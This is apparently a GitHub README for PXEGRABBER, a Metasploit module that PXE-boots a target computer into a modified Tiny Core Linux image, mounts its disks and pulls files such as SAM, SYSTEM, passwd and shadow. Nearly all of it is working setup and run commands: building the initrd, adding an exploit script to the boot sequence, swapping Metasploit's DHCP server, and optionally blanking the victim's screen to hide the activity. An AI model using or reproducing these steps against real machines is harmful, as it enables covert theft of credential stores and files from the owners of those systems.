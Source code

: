 PXEGRABBER
==========

This metasploit module loads an Tiny Core kernel & initrd into memory and serves it as a PXE bootable image.
After PXE-booting the target, the script mounts all local disks and searches it for files.


Download Tiny Core Base System
```
wget -O /tmp/core.iso http://distro.ibiblio.org/tinycorelinux/5.x/x86/release/Core-current.iso
```

Extract neccesary files:
```
mkdir /mnt/cdrom && mount -o ro /tmp/core.iso /mnt/cdrom/
cp /mnt/cdrom/boot/core.gz /tmp/
cp /mnt/cdrom/boot/vmlinuz /tmp/
gunzip /tmp/core.gz
```

Make necessary files and directories 
```
mkdir -p /usr/share/metasploit-framework/data/exploits/pxexploit/pxegrabber/tmp
```

Extract Tiny Core filesystem
```
cd /usr/share/metasploit-framework/data/exploits/pxexploit/pxegrabber/tmp
cpio -idv </tmp/core
```

Customize Tiny Core filesystem
```
cp ./exploit.sh /usr/share/metasploit-framework/data/exploits/pxexploit/pxegrabber/tmp/etc/init.d/exploit.sh
cp ./tftp.tcz /usr/share/metasploit-framework/data/exploits/pxexploit/pxegrabber/tmp/tmp/tftp.tcz

echo "sudo -u tc sh -c \"tce-load -i /tmp/tftp.tcz\"" >> /usr/share/metasploit-framework/data/exploits/pxexploit/pxegrabber/tmp/opt/bootlocal.sh
echo "sudo /etc/init.d/exploit.sh" >> /usr/share/metasploit-framework/data/exploits/pxexploit/pxegrabber/tmp/opt/bootlocal.sh
```


Compress filesystem and kernel for PXE
```
cd /usr/share/metasploit-framework/data/exploits/pxexploit/pxegrabber/tmp/
cp /tmp/vmlinuz ../kernel
find . | cpio -o -H newc | gzip > ../initrd
```

Revert to working Metasploit DHCP module
```
mv /usr/share/metasploit-framework/lib/rex/proto/dhcp/server.rb /usr/share/metasploit-framework/lib/rex/proto/dhcp/old_server.rb
cp ./dhcpserver.rb /usr/share/metasploit-framework/lib/rex/proto/dhcp/server.rb
cp ./pxegrabber.rb /usr/share/metasploit-framework/modules/exploits/multi/misc/pxegrabber.rb
```

OPTIONAL
To blackout the target screen adjust the PS1 rule in ./etc/skel/.profile
```
PS1='\[\e[0;30m\]\[\e[40m\]\[\e[40m\] '
```

Run the pxegrabber
```
/etc/init.d/networing stop
/etc/init.d/network-manager stop
ifconfig eth0 10.0.0.1 netmask 255.255.255.0
msfconsole
use exploit/multi/misc/pxegrabber
set SRVHOST 10.0.0.1
```

OPTIONAL
```
search for custom files (other than SAM/SYSTEM/passwd/shadow)
set FILES first.txt,second.txt,third.txt
```

```
exploit
```

Start target in PXE boot mode

